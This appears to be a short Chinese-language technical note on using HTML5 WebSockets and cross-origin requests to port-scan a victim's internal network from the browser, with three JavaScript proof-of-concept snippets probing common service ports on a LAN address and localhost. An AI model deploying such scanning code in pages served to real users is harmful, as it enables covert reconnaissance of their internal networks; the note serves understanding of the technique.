 -----
* 特性：有了HTML5，浏览器现在可以连到任何IP地址或网站的（几乎）任何端口。<br>
      虽然除非目标网站有特别的允许，不然并不能接收到来自任意端口连接的回应，但是研究人员表示，这类请求所花的时间可以用来判

-------
安全性：因此攻击者就可以直接利用浏览器对受害者的内部网络进行端口扫描。<br>
      这两个API都包含readyState属性，它表示在给定时间内的连接状态。<br>
      每个特定的readyState值的持续时长很大程度上是基于到目标端口连接的状态。<br>
      这表明，通过观察这种行为的不同，可以判断端口是open、closed或filterd状态。对于Cross Origin<br> Requests来说readyState为1的持续时间，WebSockets是readyState为0的时间。
      
-----
典例：

----

var host = '192.168.6.40';   
     var scan = undefined;  
     var ports = [80, 443, 445, 1433, 3306, 3389, 8000, 8080];  
     for (var i=0; i < ports.length; i++) {  
          if ("WebSocket" in window) {  
             scan = new WebSocket("ws://" + host + ":" + ports[i]);  
          } else if ("MozWebSocket" in window) {  
           scan = new MozWebSocket("ws://" + host + ":" + ports[i]);  
    }  
    //if (scan.readyState === 1) {  
        //alert('open')  
    alert(scan.readyState);  
    //}  
    }  
    var host = '127.0.0.1'  
    var scan = undefined;  
    var ports = [80, 443, 445, 1433, 3306, 3389, 8000, 8080];  
    for (var i=0; i < ports.length; i++) {  
      if ("WebSocket" in window) {  
        scan = new WebSocket("ws://" + host + ":" + ports[i]);  
      } else if ("MozWebSocket" in window) {  
        scan = new MozWebSocket("ws://" + host + ":" + ports[i]);  
    }  
    scan.onopen = function() {  
        alert("open");  
    }  
   scan.onerror = function(evt) {  
        alert("error");  
     }  
    }
    var allport = [80,443,21,22,23,445,1433,3306,1521,5800,5900];  
    try{  
      var ws;  
      if ("WebSocket" in window){  
        alert("WebSocket is supported by your Browser!");  
        for (i = 0; i<allport.length; i++){  
            var ws= new WebSocket("ws://127.0.0.1:"+ allport[i]);  
            ws.onopen = function() {  
                              alert('ok');  
                                    };  
            ws.onclose = function() {  
                            alert('close');  
                                    }  
          }  
       }  
      }catch(exception){  
         alert(exception);  
    }  
